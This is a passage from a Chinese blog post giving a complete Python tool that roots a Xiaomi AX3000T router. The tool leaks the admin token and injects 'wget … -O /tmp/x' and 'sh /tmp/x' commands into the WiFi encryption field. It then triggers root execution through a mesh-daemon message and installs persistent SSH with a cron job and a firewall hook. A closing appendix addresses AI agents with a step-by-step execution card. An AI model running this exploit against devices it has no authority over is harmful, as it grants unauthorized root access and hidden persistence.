# 2. 写入 NVRAM 和 BDATA 环境变量
nvram set ssh_en=1
nvram set telnet_en=1
nvram set uart_en=1
nvram set boot_wait=on
nvram commit
bdata set ssh_en=1 2>/dev/null
bdata commit 2>/dev/null

# 3. 创建持久化守护脚本 (/data 分区在重启、重配网络或升级时 100% 保留)
mkdir -p /data/auto_ssh
cat << 'EOF' > /data/auto_ssh/auto_ssh.sh
#!/bin/sh
# 确保 NVRAM 标记
[ "$(nvram get ssh_en)" = 0 ] && nvram set ssh_en=1 && nvram commit

# 关键：修补官方 dropbear 启动脚本，解除 release 稳定版对 SSH 的硬编码限制
if [ -f /etc/init.d/dropbear ]; then
    sed -i 's/channel=.*/channel="debug"/g' /etc/init.d/dropbear
fi

# 确保 dropbear 自启并运行
if [ -z "$(pidof dropbear)" ]; then
    /etc/init.d/dropbear enable
    /etc/init.d/dropbear restart 2>/dev/null
fi

# 通用自愈防护 1：检查并恢复防火墙 include 自启挂载
if ! uci -q get firewall.auto_ssh >/dev/null; then
    uci set firewall.auto_ssh=include
    uci set firewall.auto_ssh.type='script'
    uci set firewall.auto_ssh.path='/data/auto_ssh/auto_ssh.sh'
    uci set firewall.auto_ssh.enabled='1'
    uci commit firewall 2>/dev/null
fi

# 通用自愈防护 2：检查并恢复 crontab 计划任务（防止中继模式防火墙不加载时失去守护）
if ! crontab -l 2>/dev/null | grep -q "auto_ssh"; then
    (crontab -l 2>/dev/null; echo "*/2 * * * * /data/auto_ssh/auto_ssh.sh") | crontab - 2>/dev/null
fi
EOF
chmod +x /data/auto_ssh/auto_ssh.sh

# 4. 挂载到系统防火墙自启模块
uci set firewall.auto_ssh=include
uci set firewall.auto_ssh.type='script'
uci set firewall.auto_ssh.path='/data/auto_ssh/auto_ssh.sh'
uci set firewall.auto_ssh.enabled='1'
uci commit firewall

# 5. 保底计划任务：双通道守护 (每 2 分钟巡视一次服务状态，中继模式与路由模式双重兜底)
(crontab -l 2>/dev/null | grep -v "auto_ssh"; echo "*/2 * * * * /data/auto_ssh/auto_ssh.sh") | crontab - 2>/dev/null

# 6. 解锁当前环境下的 dropbear 脚本并立即拉起服务
sed -i 's/channel=.*/channel="debug"/g' /etc/init.d/dropbear
/etc/init.d/dropbear enable
/etc/init.d/dropbear restart 2>/dev/null

# 7. WiFi 异步自愈守护 (与原作者经过硬件实测验证的标准完全一致，保持 AP 稳定且可用)
(
  i=0
  while [ $i -lt 30 ]; do
    i=$((i+1)); sleep 5
    changed=0
    for s in $(uci show wireless 2>/dev/null | sed -n 's/^wireless\\.\\([^.]*\\)=wifi-iface$/\\1/p'); do
      e=$(uci -q get wireless.$s.encryption 2>/dev/null)
      case "$e" in
        *wget*|*"sh /tmp"*)
          uci -q set wireless.$s.encryption='psk2'
          uci -q set wireless.$s.key='meshpoc12345'
          changed=1 ;;
      esac
    done
    [ "$changed" = 1 ] && {{ uci -q commit wireless; wifi reload 2>/dev/null; }}
  done
) &
"""

# ---- 远程完全撤销与还原 Shell 构造 ----
def build_revert_sh():
    return """#!/bin/sh

# 1. 立即停止 Dropbear (SSH) 与 Telnet 服务并禁用开机自启
/etc/init.d/dropbear stop 2>/dev/null
/etc/init.d/dropbear disable 2>/dev/null
/etc/init.d/telnet stop 2>/dev/null
/etc/init.d/telnet disable 2>/dev/null
killall -9 dropbear telnetd 2>/dev/null

# 2. 还原 NVRAM 和 BDATA 环境变量为出厂关闭状态
nvram set ssh_en=0
nvram set telnet_en=0
nvram set uart_en=0
nvram set boot_wait=off
nvram commit
bdata set ssh_en=0 2>/dev/null
bdata commit 2>/dev/null

# 3. 彻底删除 /data 下的持久化脚本
rm -rf /data/auto_ssh

# 4. 从防火墙配置中删除开机自启
uci -q delete firewall.auto_ssh
uci commit firewall 2>/dev/null
/etc/init.d/firewall reload 2>/dev/null

# 5. 清理 crontab 定时任务
(crontab -l 2>/dev/null | grep -v "auto_ssh") | crontab - 2>/dev/null

# 6. 还原 dropbear 脚本为 release 状态
[ -f /etc/init.d/dropbear ] && sed -i 's/channel="debug"/channel="release"/g' /etc/init.d/dropbear

# 7. 锁定 root 用户密码（恢复出厂禁用直接登录状态）
passwd -l root 2>/dev/null
"""

class StagerServer(http.server.BaseHTTPRequestHandler):
    payload = b""
    triggered = False
    def do_GET(self):
        StagerServer.triggered = True
        self.send_response(200)
        self.send_header("Content-Type", "text/plain")
        self.end_headers()
        self.wfile.write(StagerServer.payload)
    def log_message(self, format, *args):
        pass

def trigger_rce(host, ident=b"ota0001", timeout=20.0, settle=4.0):
    s = _tls_connect(host, timeout=timeout)
    _send_auth(s, ident)
    time.sleep(1.0)
    _send_running(s)
    time.sleep(1.5)
    s.settimeout(2.0)
    try:
        s.recv(4096)
    except Exception:
        pass
    b = bytearray(0x110)
    b[0] = 1
    s.sendall(_hdr(7, len(b)) + bytes(b))
    time.sleep(settle)
    try:
        s.close()
    except OSError:
        pass

def execute_remote_payload(host, local_ip, payload_content):
    port = 8123
    StagerServer.triggered = False
    StagerServer.payload = payload_content.encode("utf-8")
    httpd = http.server.HTTPServer(("0.0.0.0", port), StagerServer)
    t = threading.Thread(target=httpd.serve_forever, daemon=True)
    t.start()
    print(f"[+] 步骤 2/4: 本地临时载荷服务已启动在端口 {port}...")

    print("\n[+] 步骤 3/4: 提取管理凭据并触发漏洞注入...")
    stok = leak_admin_stok(host)

    ssid24, ssid5 = "MiWiFi", "MiWiFi"
    try:
        w_info = http_json(f"http://{host}/cgi-bin/luci/;stok={stok}/api/xqnetwork/wifi_detail_all")
        b_list = w_info.get("info", [])
        if len(b_list) > 0 and b_list[0].get("ssid"):
            ssid24 = b_list[0]["ssid"]
        if len(b_list) > 1 and b_list[1].get("ssid"):
            ssid5 = b_list[1]["ssid"]
        else:
            ssid5 = ssid24
    except Exception:
        pass
    
    p_fetch = f'\\" wget http://{local_ip}:{port}/s -O /tmp/x #'
    p_exec = '\\" sh /tmp/x #'
    
    http_json(f"http://{host}/cgi-bin/luci/;stok={stok}/api/xqnetwork/set_wifi_without_restart", {
        "wifiIndex": "1", "ssid": ssid24, "pwd": "meshpoc12345", "encryption": p_fetch
    })
    http_json(f"http://{host}/cgi-bin/luci/;stok={stok}/api/xqnetwork/set_wifi_without_restart", {
        "wifiIndex": "2", "ssid": ssid5, "pwd": "meshpoc12345", "encryption": p_exec
    })
    print("[+] 注入指令已写入，发送 Type-7 信号触发底层 root 权限执行...")

    trigger_rce(host)

    print("[*] 正在等待路由器请求并执行操作脚本...")
    for _ in range(15):
        if StagerServer.triggered:
            break
        time.sleep(1)

def do_unlock(host, local_ip):
    print("\n【设置 Root 密码】")
    root_pwd = input("请输入您想为路由器设置的 root 密码 [直接回车默认: admin]: ").strip()
    if not root_pwd:
        root_pwd = "admin"
    print(f"[*] 已设置 root 密码为: {root_pwd}")

    # 步骤 1: 准备出厂环境
    init_factory_cap(host)

    # 步骤 2 & 3: 注入全能双模自愈固化脚本
    execute_remote_payload(host, local_ip, build_remote_sh(root_pwd))

    # 步骤 4: 循环探测验证 SSH 状态 (给路由器启动 Dropbear 留出充足时间)
    print("\n[+] 步骤 4/4: 检查 SSH 服务就绪状态 (最多等待 25 秒)...")
    ssh_ready = False
    for i in range(12):
        if port_open(host, 22):
            ssh_ready = True
            break
        print(".", end="", flush=True)
        time.sleep(2)
    print()

    if ssh_ready:
        print("\n" + "=" * 68)
        print("  🎉 恭喜！SSH 已经成功开启并完成永久固化！")
        print(f"  ★ SSH 登录账号: root")
        print(f"  ★ SSH 登录密码: {root_pwd}")
        print(f"  ★ 命令行连接:   ssh root@{host}")
        print("=" * 68)
        print("\n[+] 密码及网络重要提示：")
        print(f"    1. 【SSH 终端密码】：为您刚才设置的 `{root_pwd}`，用于 SSH 终端登录。")
        print("    2. 【临时 WiFi 密码】：当前无线 WiFi 的临时连接密码为 meshpoc12345")
        print("       (手机/电脑若需无线连接，请输入该临时密码；插网线则不受影响)")
        print("    3. 【网页管理密码】：浏览器访问 http://192.168.31.1 ，")
        print("       - 若弹出全新开箱配置向导：直接按照屏幕提示创建您的私人管理密码；")
        print("       - 若直接进入登录页：说明仍处在初始化免密占位状态，输入密码 admin 即可进入！")
        print("       登录后台后，请进入【Wi-Fi 设置】将 WiFi 名字和密码改成您自己的私人密码！")
        print("       (在网页端无论修改 WiFi 还是管理密码，后台 Root/SSH 权限均会永久保留)")
        print(f"    4. 【立即验证】：建议直接在当前终端执行 `ssh root@{host}` 体验 Root 权限！")
    else:
        print("\n" + "=" * 68)
        print("  【提示】25 秒内未直接探测到 22 端口，可能存在以下情况：")
        print("=" * 68)
        print("  情况 A (最常见)：后台守护进程仍在收尾，实际上脚本已成功写入。")
        print(f"         请直接在终端尝试手动连接: ssh root@{host}")
        print(f"         (如果连上并输入密码 `{root_pwd}` 成功，说明其实已经解锁！)")
        print("  情况 B：路由器内部 Mesh 触发中断或网络未握手完成。")
        print("         若手动连接仍超时，请断电重启路由器等待 1 分钟后再次尝试连接；")
        print("         若仍未开启，请长按 Reset 键 8 秒恢复出厂重新执行一次本脚本。")
        print("=" * 68)

def do_revert(host):
    print("\n" + "=" * 68)
    print("           【撤销 Root 权限与关闭 SSH 服务向导】")
    print("=" * 68)
    print("★ 运行环境要求：")
    print("  1. 路由器当前处于正常开机运行状态（电脑已连上其 LAN 口或 WiFi）；")
    print(f"  2. 目标路由器当前 IP: {host} (若为中继模式请确保 IP 正确)；")
    print("  3. 路由器当前的 SSH 端口 (22) 为开启状态。")
    print("=" * 68)
    print("\n本操作将对路由器执行以下无痕清理：")
    print("  1. 立即停止并禁用 dropbear (SSH) 与 telnetd 进程，关闭 22 端口；")
    print("  2. 将 NVRAM 与 BDATA 中的 ssh_en/telnet_en/uart_en 标志恢复为 0；")
    print("  3. 彻底删除 /data/auto_ssh 持久化目录与守护脚本；")
    print("  4. 从系统防火墙中移除自启挂载，并清空巡视计划任务；")
    print("  5. 还原 dropbear 官方限制并锁定 root 密码（禁止直接登录）。")
    print("=" * 68)

    confirm = input("\n请确认是否要彻底撤销 Root 并关闭 SSH？[输入 YES 确认，按其他键取消]: ").strip()
    if confirm != "YES":
        print("[*] 操作已取消。")
        return

    # 1. 检查 SSH 连通性
    if not port_open(host, 22):
        print(f"\n[-] 错误：目标路由器 {host} 的 22 端口未响应！")
        print("    若路由器已处于中继模式，其 IP 会变为主路由分配的 IP。")
        print("    请重新启动脚本并在输入目标 IP 时指定其真实 IP。")
        return

    # 2. 执行撤销清理 Shell 指令
    clean_cmds = (
        "nvram set ssh_en=0; nvram set telnet_en=0; nvram set uart_en=0; nvram set boot_wait=off; nvram commit; "
        "bdata set ssh_en=0 2>/dev/null; bdata commit 2>/dev/null; "
        "rm -rf /data/auto_ssh; "
        "uci -q delete firewall.auto_ssh; uci commit firewall 2>/dev/null; "
        "(crontab -l 2>/dev/null | grep -v 'auto_ssh') | crontab - 2>/dev/null; "
        "[ -f /etc/init.d/dropbear ] && sed -i 's/channel=\"debug\"/channel=\"release\"/g' /etc/init.d/dropbear; "
        "passwd -l root 2>/dev/null; "
        "/etc/init.d/dropbear stop 2>/dev/null; /etc/init.d/dropbear disable 2>/dev/null; killall -9 dropbear 2>/dev/null"
    )

    print(f"\n[*] 正在通过 SSH 连接到 root@{host} 执行清理...")
    print("    【提示】随后的 SSH 连接窗口若提示密码，请输入您之前设置的 root 密码！")
    print("    正在调起连接并下发清理指令...\n")

    cmd = ["ssh", "-o", "StrictHostKeyChecking=no", "-o", "UserKnownHostsFile=NUL", f"root@{host}", clean_cmds]
    try:
        ret = subprocess.run(cmd)
    except Exception as e:
        print(f"[-] 执行 SSH 命令出错: {e}")

    # 3. 验证端口关闭结果
    time.sleep(3)
    print("\n[+] 正在验证清理结果...")
    if not port_open(host, 22):
        print("=" * 68)
        print("  ✔ 撤销成功！SSH 端口 (22) 已成功关闭！")
        print("  ✔ 所有 NVRAM 标记、自启脚本、定时任务均已彻底清除。")
        print("  ✔ root 用户已被锁定，路由器已完全恢复为出厂纯净状态！")
        print("=" * 68)
    else:
        print("=" * 68)
        print("  [!] 提示：端口 22 仍在监听，可能是密码未输入正确导致命令未执行，")
        print(f"      您可以手动登录终端 `ssh root@{host}` 运行以下命令完成清理：")
        print("      rm -rf /data/auto_ssh && nvram set ssh_en=0 && nvram commit && /etc/init.d/dropbear stop")
        print("=" * 68)

def main():
    print("=" * 68)
    print("      小米 AX3000T 高通版 (RD03v2) 原厂固件 SSH 管理工具箱")
    print("         (纯 Python 原生标准库实现 · 免装模块 · 免克隆代码)")
    print("=" * 68)

    print("\n请选择您要执行的操作：")
    print("  [1] 开启 SSH 并永久固化 (刚恢复出厂未配置时运行，自动双模适配常驻)")
    print("  [2] 撤销 Root 权限并彻底关闭 SSH (已联网正常运行时运行，无痕恢复出厂)")
    action = input("\n请输入数字 [1 或 2，回车默认 1]: ").strip()
    if not action:
        action = "1"

    if action == "1":
        host = "192.168.31.1"
        local_ip = get_local_ip(host)
        print(f"\n[*] 模式: 开启 SSH 并固化")
        print(f"[*] 目标路由器默认 IP: {host}")
        print(f"[*] 识别到网卡 IP: {local_ip}")
        do_unlock(host, local_ip)
    elif action == "2":
        print(f"\n[*] 模式: 撤销 Root 权限并关闭 SSH")
        custom_host = input("请输入路由器当前的 IP 地址 [直接回车默认: 192.168.31.1]: ").strip()
        host = custom_host if custom_host else "192.168.31.1"
        do_revert(host)
    else:
        print(f"[-] 未知选项: {action}")

    print("\n操作完毕，按任意键或关闭窗口退出。")

if __name__ == "__main__":
    try:
        main()
    except Exception as e:
        print(f"\n[-] 运行出错: {e}")
```

### 脚本跑不起来时

| 现象 | 原因 | 处理 |
|---|---|---|
| `python: command not found` / 提示找不到 Python | 没装或不在 PATH | 重装 Python 3 并勾选 `Add python.exe to PATH`，或改用 `py unlock_ax3000t.py` |
| 控制台出现乱码方框 | Windows 终端编码不是 UTF-8 | 用 `chcp 65001` 切一下，或用上面那个 `run.bat` |
| 一直停在「等待路由器重启并上线」 | 路由器没真的出厂 / 已走完向导 | 回 1.3 重按 Reset，之后不要打开浏览器 |
| 提示 8123 无法访问 | 防火墙拦了 Python | 允许联网，或临时关防火墙重跑 |

---

## 九、附录 E：给 AI Agent 的执行卡

这一节给自动化流程看，人类读者可以跳过。它把前面散落的判据收成一张可执行的表。

### E.1 输入参数

| 参数 | 值 | 备注 |
|---|---|---|
| 路由器 IP | `192.168.31.1` | 脚本固定，不询问（只有撤销模式才问） |
| 本机 HTTP 端口 | `8123` | 脚本内置，必须防火墙放行 |
| root 密码 | 由调用方给定 | 空值会落到 `admin`，不建议 |
| 单次运行超时 | ≥ 420 秒 | 初始化等待约 130 秒 + 注入 + 25 秒轮询 |

### E.2 执行序列

**S0 · 人类 · 恢复出厂**
- 动作：长按 Reset 8 秒，等 60~90 秒；期间不打开浏览器、不走向导。
- 判据：`init_info` 返回的 `inited` 不是 `1`，且 19553 端口可连。
- 失败：重做 S0；两次仍不行就终止，不要硬试。

**S1 · Agent · 落盘脚本**
- 动作：把附录 D 全文写成 `unlock_ax3000t.py`（UTF-8）。
- 判据：`python -c "import ast;ast.parse(open('unlock_ax3000t.py',encoding='utf-8').read())"` 无输出、无报错。
- 失败：编码或换行出错就重写文件。

**S2 · Agent · 运行**
- 动作：用管道喂两行 stdin，超时 420 秒。
- 判据：stdout 出现 `🎉 恭喜`。
- 失败：按 E.3 的关键字表分流。

**S3 · Agent · 复核**
- 动作：`ssh -o HostKeyAlgorithms=+ssh-rsa root@192.168.31.1 id`
- 判据：输出含 `uid=0(root)`。
- 失败：间隔 10 秒重试 3 次；仍失败按 E.3 处理。

**S4 · 人类 · 收尾（可选）**
- 动作：登录后台，改 WiFi 名与密码、改网页管理密码。

S2 的两行 stdin：第一行 `1`（开启并固化），第二行是 root 密码。两种写法等价：

```bash {linenos=false}
printf '1\n<YOUR_PASSWORD>\n' | python unlock_ax3000t.py
```

```bash {linenos=false}
python unlock_ax3000t.py <<'EOF'
1
<YOUR_PASSWORD>
EOF
```

### E.3 stdout 关键字 → 结论

| 关键字 | 结论 | 下一步 |
|---|---|---|
| `🎉 恭喜！SSH 已经成功开启` | 成功 | 立即做 S3 复核 |
| `【提示】25 秒内未直接探测到 22 端口` | **大概率已成功**，只是 dropbear 起得慢 | 马上 S3；能登进去就是成功 |
| `等待超时：路由器 19553 端口未能正常打开` | 不在 CAP 态 | 回 S0，并确保没走向导 |
| `出厂登录被拒绝` | 没真正出厂，或已经配置过 | 回 S0 |
| `未在超时时间内收到路由器返回的 Type-6` | 认证口令或 TLS 套件不对 | 核对常量与 TLS 设置，重跑一次 |
| `换取管理 token 失败` | `web_passwd256` 没取到 | 重跑一次；再失败回 S0 |

脚本**不用退出码表达成败**（异常路径也是 `exit 0`），判定只认上面的关键字，不要依赖 `$LASTEXITCODE` / `$?`。

### E.4 Agent 必须守住四条

1. **S0 不能自动化**：物理 Reset 只能由人按下，Agent 不得跳过或伪造这一步。
2. **不要在已配置态硬试**：`inited=1`、或 19553 与 22 都不通，说明设备不在 CAP 态，此时任何注入都会静默失败，不要反复重试。
3. **不要改常量**：`FACTORY_ADMIN_HASH`、`MESH_KEY`、`19553`、`44` 字节帧头都不随机型或机器变化，改动只会引入错误。
4. **一轮只触发一次 Type-7**：重复注入会让 `cab_meshd` 反复崩溃重启，反而更难成功。


---

> 作者: [0x5c0f](https://tools.0x5c0f.cc)  
> URL: https://blog.0x5c0f.cc/posts/other/%E5%B0%8F%E7%B1%B3ax3000t-rd03v2-%E9%AB%98%E9%80%9A%E7%89%88%E5%9B%BA%E4%BB%B6%E5%BC%80%E5%90%AFssh/  

